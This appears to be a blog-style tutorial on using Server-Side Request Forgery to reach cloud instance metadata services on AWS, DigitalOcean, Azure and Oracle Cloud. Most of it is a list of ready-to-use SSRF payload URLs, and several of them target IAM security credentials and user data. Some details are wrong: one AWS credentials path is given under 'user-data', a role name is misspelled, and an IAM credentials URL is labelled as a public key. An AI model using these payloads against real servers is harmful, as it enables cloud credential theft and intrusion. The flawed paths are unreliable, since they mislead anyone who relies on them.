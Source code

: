 # Unveiling the Secrets of Cloud Provider Metadata Through SSRF

In the realm of cybersecurity, Server-Side Request Forgery (SSRF) emerges as a cunning infiltrator, capable of unveiling the closely guarded secrets of cloud providers like AWS, Google Cloud, Azure, and DigitalOcean. This covert operation relies on the art of exploiting private addressing, cleverly concealed within each provider's documentation.

### **AWS: Navigating the AWS Matrix**

For AWS, the attacker's journey commences with a departure from the familiar realms of 'localhost' or '127.0.0.1,' and instead embarks on an odyssey towards the enigmatic '169.254.169.254' address—a portal to the AWS matrix of information. Here, a trove of valuable data awaits, including public keys, security credentials, hostnames, unique IDs, and much more.

* _Unmasking User Data_: The attacker navigates the AWS labyrinth with URLs like:

```
https://target.com/page?url=http://169.254.169.254/latest/user-data
```

Unveiling hidden user data, like a cryptographer deciphering an ancient scroll.

* _IAM Credentials_: The journey deepens as URLs reveal the hidden identities within AWS:

```
https://target.com/page?url=http://169.254.169.254/latest/user-data/iam/security-credentials/ROLE_NAME
```

Like a spy seeking covert aliases, the attacker discovers IAM security credentials.

* _Meta-Data Quest_: The meta-data realms are rich with secrets to plunder:

```
https://target.com/page?url=http://169.254.169.254/latest/meta-data
```

Within, one can uncover a trove of insights, from hostnames to AMI IDs and more.

* _Public Key Pursuit_: In this expedition, the attacker seeks the keys to the kingdom:

```
https://target.com/page?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/aws-elasticbeanorastalk-ec2-role
```

Public keys, like mystical artifacts, are ready to be seized.

AWS's official documentation holds even more cryptic links, unveiling the full extent of their metadata treasure trove.

### **DigitalOcean: Navigating the Digital Seas**

Much like AWS, DigitalOcean sails the seas of '169.254.169.254,' guarding its secrets in the depths of metadata. Adventurers are encouraged to consult the documentation for further maps.

* _Metadata Mapping_: URLs like this lead to the secrets of DigitalOcean's metadata:

```
https://target.com/page?url=http://169.254.169.254/metadata/v1.json
```

Here, the attacker deciphers the JSON-encoded metadata, revealing invaluable information.

* _Identity Insights_: Another trail to follow, hinting at identity revelations:

```
https://target.com/page?url=http://169.254.169.254/metadata/v1/id
```

Identity data becomes a treasure trove waiting to be unearthed.

* _UserData Unveiled_: The pursuit of user data continues:

```
https://target.com/page?url=http://169.254.169.254/metadata/v1/user-data
```

What secrets lie within the user data vault?

* _Regional Revelations_: Regional metadata exploration leads to uncharted territory:

```
https://target.com/page?url=http://169.254.169.254/metadata/v1/region
```

Insights into the server's geographical context emerge.

* _Interface Intrigue_: Investigating interfaces, a deeper understanding is achieved:

```
https://target.com/page?url=http://169.254.169.254/metadata/v1/interfaces/public/0/ipv6/address
```

Even IPv6 addresses are laid bare for scrutiny.

### **Azure and Oracle Cloud: Limited Yet Intriguing Secrets**

Azure and Oracle Cloud, though more guarded in their revelations, harbor their own troves of concealed data, accessible through SSRF.

### **Azure: Navigating Azure's Metadata**

Azure's metadata can be unveiled with a specific header requirement: 'Metadata: true.' Once this entry point is secured, explorers can delve into the hidden domains.

* _Maintenance Insights_: A glimpse into Azure's maintenance activities awaits:

```
https://target.com/page?url=http://169.254.169.254/metadata/maintenance
```

Discover the behind-the-scenes operations that keep Azure running smoothly.

* _Instance Exploration_: Further into the Azure labyrinth, uncover instance-specific metadata:

```
https://target.com/page?url=http://169.254.169.254/metadata/instance?api-version=2019-10-01
```

Dive into the unique characteristics of your Azure instance.

* _IP Address Intel_: For those curious about IP addresses, Azure discloses IPv4 details:

```
https://target.com/page?url=http://169.254.169.254/metadata/instance/network/interface/0/ipv4/ipAddress/0/publicIpAddress?api-version=2019-10-01&format=text
```

Gain insights into public IP addresses associated with your Azure instance.

### **Oracle Cloud: Unearthing Oracle's Mysteries**

Oracle Cloud, with its secrets hidden behind the '192.0.0.192' address, invites intrepid explorers to uncover its concealed treasures.

* _Latest Discoveries_: Begin your quest by accessing the latest revelations from Oracle Cloud:

```
https://target.com/page?url=http://192.0.0.192/latest/
```

Learn what's currently on offer from Oracle's digital realm.

* _Metadata Expedition_: Venture deeper into the metadata territory:



```
https://target.com/page?url=http://192.0.0.192/latest/meta-data/
```

Explore metadata that sheds light on the inner workings of Oracle Cloud.

* _User Data Quest_: Seek user-specific data, a key to understanding Oracle's ecosystem:

```
https://target.com/page?url=http://192.0.0.192/latest/user-data/
```

Uncover the digital footprint left by users within Oracle Cloud.

* _Attributes Unveiled_: Delve into attributes that define Oracle's digital landscape:

```
https://target.com/page?url=http://192.0.0.192/latest/attributes/
```

Gain a deeper understanding of the attributes that shape Oracle Cloud's operations.

As you embark on these expeditions into the hidden realms of Azure and Oracle Cloud, remember that with great knowledge comes great responsibility. While these discoveries provide insights, they also highlight the importance of safeguarding such sensitive information from unauthorized access and potential security threats.
